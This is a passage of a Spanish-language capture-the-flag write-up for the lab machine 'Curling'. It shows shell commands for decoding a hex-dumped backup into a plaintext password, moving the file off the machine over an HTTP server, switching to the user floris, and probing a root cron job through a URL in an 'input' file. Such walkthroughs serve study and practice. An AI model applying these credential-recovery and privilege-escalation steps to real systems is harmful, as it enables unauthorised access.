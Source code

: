 Vemos que es un archivo en `HEXADECIMAL` probamos a reversearlo con el commando `xxd -r password_backup` y almacenarlo en `/tmp/password-backup` usar el comando `file` para ver que tipo de archivo es:
```bash
www-data@curling:/home/floris$ xxd -r password_backup > /tmp/password_backup 
www-data@curling:/home/floris$ file /tmp/password_backup 
"/tmp/password_backup: bzip2 compressed data, block size = 900k    "
```
Ahora nos vamos a compartir el archivo con un servidor que nos montamos desde la maquina victima para poder descargarnos el recurso alojado en `/tmp/password_backup`: ("Situado en la ruta /tmp/")
```python
$ python3 -m http.server 8000
``` 
Usamos el comando: `wget http://10.10.10.150:8000/password_backup`
Procedemos a descomprimir el archivos unas 4 o 5 veces haciendo uso de: `$ 7z x password_backup` multiples veces hasta que
obtenemos el ultimo fichero que se llama `"password.txt"` y almacena: 
```bash
# cat password.txt    
5d<wdCbdZu)|hChXll
```
Posible contraseña del user Floris:
```bash
www-data@curling:/$ su floris
Password: 5d<wdCbdZu)|hChXll
floris@curling:/$ 
```
Apartir de aqui ya podriamos visualizar la flag `user.txt` localizada en `/home/floris/user.txt`
```bash
floris@curling:/home$ cat floris/user.txt 
65dd1df0713b40d88ead98cf1......
``` 

# Escalada de Privilegios al user Root

Vemos que tenemos un directorio en la carpeta /home/floris/admin-area
```bash
floris@curling:~/admin-area$ ls
input  report
floris@curling:~/admin-area$ cat input 
url = "http://127.0.0.1"
``` 
Vemos que el fichero input almacena una url, probamos a montarnos un servidor con python3 y cambiar la url del archiv `input`por la de nuestro servidor
a ver si recibimos una peticion a nivel web.
```bash
# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.150 - - [21/May/2021 16:44:01] code 404, message File not found
10.10.10.150 - - [21/May/2021 16:44:01] "GET /prueba HTTP/1.1" 404 -
``` 
Comprobamos que hay una tarea CRON por detras que posiblemente sea del user Root que nos la esta ejecutando el archivo input.
